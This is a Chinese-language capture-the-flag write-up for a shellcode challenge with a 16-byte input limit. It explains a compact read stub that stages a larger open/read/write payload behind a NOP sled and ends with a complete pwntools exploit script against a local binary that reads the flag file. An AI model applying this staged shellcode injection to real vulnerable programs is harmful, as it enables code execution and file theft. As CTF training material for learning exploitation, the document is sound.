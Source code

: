 ![[Pasted image 20240923214043.png]]

没有禁用orw

![[Pasted image 20240923214050.png]]

只让读入0x10字节，这不够输入后门的，我们可以先输入一个read函数在mmap入口的位置，用这个read去输入我们需要的后门函数。
![[Pasted image 20240923214057.png]]

#### 重点：

在做这一题的时候read函数起初我是这样用的

这样是错的，因为题目限制了输入的字节数是0x10，

shellcaft.read()的字节数已经操超过了0x10字节。

![[Pasted image 20240923214110.png]]

这个时候我们就需要用到内联汇编了，我们自己用汇编去写一个read的函数调用

但是在这个汇编的编写过程中还是需要注意的点：

这个程序是64位的，但是我们用的时候用rdi，rsi，rdx，rax是不行的，会超过16个字节的限制，

这个时候我们就用32位的寄存器代替使用，这个是时候空间就够了。

然后需要填充nop滑板去滑到open的位置去执行。nop的字节应大于或等于read的字节长度。

mmap+的字节因该大于等于nop的字节长度。

记得edx给字节多一点，不然不够写后门orw的。

![[Pasted image 20240923214124.png]]

对于这篇文章的汇编有很多种写法，有一些我现在也不太理解。

[https://www.cnblogs.com/GGbomb/p/17826111.html](https://www.cnblogs.com/GGbomb/p/17826111.html)

[https://blog.csdn.net/Mr_Fmnwon/article/details/135377076](https://blog.csdn.net/Mr_Fmnwon/article/details/135377076)

```
from pwn import*
context.arch='amd64'
context.os='linux'
# context.log_level='debug'
p = process('./vuln')

mmap=0xCAFE0000


shellcode1=asm("""
               xor eax,eax
               xor edi,edi
               mov esi,0xcafe0000
               mov edx, 0x500
               syscall
               """)

print(len(shellcode1))
p.send(shellcode1)
p.recvuntil("Please input your shellcode:")
payload=b'\x90'*0x20
oopen=asm(shellcraft.open("./flag"))
readd=asm(shellcraft.read(3,mmap+0x20,0x100))
writee=asm(shellcraft.write(1,mmap+0x20,0x100))

p.sendline(payload+oopen+readd+writee)
```